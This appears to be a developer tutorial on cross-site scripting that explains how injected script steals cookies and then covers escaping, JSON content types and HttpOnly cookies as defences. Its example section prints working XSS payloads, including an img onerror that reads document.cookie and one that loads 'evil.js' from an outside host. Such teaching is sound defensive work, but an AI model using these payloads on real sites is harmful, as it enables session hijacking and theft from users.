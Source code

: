 # XSS

> Cross-Site Scripting

Cross-site scripting (XSS) is a security bug that can affect websites. If present in your website, this bug can allow an attacker to add their own malicious JavaScript code onto the HTML pages displayed to your users. Once executed by the victim's browser, this code could then perform actions such as completely changing the behavior or appearance of the website, stealing private data, or performing actions on behalf of the user.

> XSS vulnerabilities most often happen when user input is incorporated into a web server's response (i.e., an HTML page) without proper **escaping** or **validation**.

## Basic example

Say you app take user input in a textbox, save it in DB and then show it in some HTML page. User can provide anything in textbox, even HTML or javascript code so when you display user's input back in HTML page then that user's input will be executed by browser because it either HTML or javascript.
For example, you ask user to provide text and user gives you `<strong>Test</strong>`, so when you display ths is in HTML page then browser render it in bold text as **Test**.

So, without knowing the application code, someone figure out easily that the application includes our own HTML markup in the response. That's interesting but not terribly dangerous. If, however, the application also allows us to inject JavaScript code `<script>alert('hello')</script>`, that would be much more "interesting".

If attacker can run script in your app then javascript can be used by attacker to read application cookies, localstorage data, browser history etc and then run ajax request which send the cookies data back to him. For example, if attacker can add `<img src=x onerror="alert(document.cookie);"` to your app then he can get cookie data which contain session id try to use the same session id to authenticate himself as owner of the account.

What else can attacker do besides popping up alerts or stealing session IDs? He can pretty much do anything that JavaScript allows like `<img src=1 onerror="s=document.createElement('script');s.src='//xss-doc.appspot.com/static/evil.js';document.body.appendChild(s);"`

## Prevention

### HTML escape

> Escape Before Inserting Untrusted Data in HTML.

> Use template system that do escaping.

The purpose of character and string escaping is to make sure that every part of a string is interpreted as a string primitive, not as a control character or code.

For example, `&lt;` is the HTML encoding for the `<` character. If attcker provide:

`<script>alert('testing')</script>` then after escaping it becomes:

`&lt;script&gt;alert('testing')&lt;/script&gt;`, and when it render by browser it render as:

`<script>alert('testing')</script>` but does not execute because browse actually see it as `&lt;script&gt;alert('testing')&lt;/script&gt;` which is just a another text for browser than script to execute.

### Attribute escape

> Attribute Escape Before Inserting Untrusted Data.

```html
<img src="...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...">
```

### Javascript escape

> Dynamically generated JavaScript code - both script blocks and event-handler attributes.

```html
<script>alert('...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...')</script>
<div onmouseover='x=...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...'</div>
```

### JSON request

In a Web 2.0 world, the need for having data dynamically generated by an application in a javascript context is common.

> Ensure returned Content-Type header is `application/json` and not `text/html`. This shall instruct the browser not misunderstand the context and execute injected script.

```
# BAD

HTTP/1.1 200
Date: Wed, 06 Feb 2013 10:28:54 GMT
Server: Microsoft-IIS/7.5....
Content-Type: text/html; charset=utf-8 <-- bad
....
Content-Length: 373
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
{"Message":"No HTTP resource was found that matches the request URI 'dev.net.ie/api/pay/.html?HouseNumber=9&AddressLine
=The+Gardens<script>alert(1)</script>&AddressLine2=foxlodge+woods&TownName=Meath'.","MessageDetail":"No type was found
that matches the controller named 'pay'."}   <-- this script will pop!!
```

```
# GOOD

HTTP/1.1 200
Date: Wed, 06 Feb 2013 10:28:54 GMT
Server: Microsoft-IIS/7.5....
Content-Type: application/json; charset=utf-8 <--good
.....
```

### Embedded JSON

```html
<script>
  var initData = <%= data.to_json %>; // Do NOT do this without encoding the data.
</script>
```

Normalize JSON on server-side by converting `<` to `\u003c` before delivering it to the browser.

### CSS escape

When you want to put untrusted data into a stylesheet or a style tag.

```html
<style>selector { property : ...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...; }</style>
<span style="property : ...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...">text</span>
```

### Escape query string in URL

When you want to put untrusted data into HTTP GET parameter value.

```html
<a href="http://www.somesite.com?test=...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...">link</a >
```

### HTTP cookie flag

Prevent cookie stealing by evil script.

When you tag a cookie with the HttpOnly flag, it tells the browser that this particular cookie should only be **accessed by the server**. Any attempt to access the cookie from client script is strictly forbidden.

* It restricts all access to `document.cookie`.
* XMLHttpObjects may only be submitted to the domain they originated from, so there is no cross-domain posting of the cookies.
